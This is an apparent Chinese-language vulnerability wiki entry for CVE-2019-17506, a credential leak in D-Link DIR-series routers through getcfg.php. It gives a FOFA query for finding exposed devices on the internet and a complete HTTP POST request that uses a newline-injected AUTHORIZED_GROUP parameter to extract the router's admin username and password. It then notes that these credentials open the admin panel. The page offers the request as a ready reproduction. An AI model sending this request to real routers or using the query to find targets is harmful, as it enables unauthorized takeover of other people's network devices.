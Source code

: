 # D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

> [!NOTE]
>
> D-Link Dir 系列多个版本

## FOFA

> [!NOTE]
>
> app="D_Link-DIR-868L"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/link-14.png)

发送如下请求包

```
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![](http://wikioss.peiqi.tech/vuln/link-15.png)

获取到路由器账号密码即可登录后台

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/link-13.png)

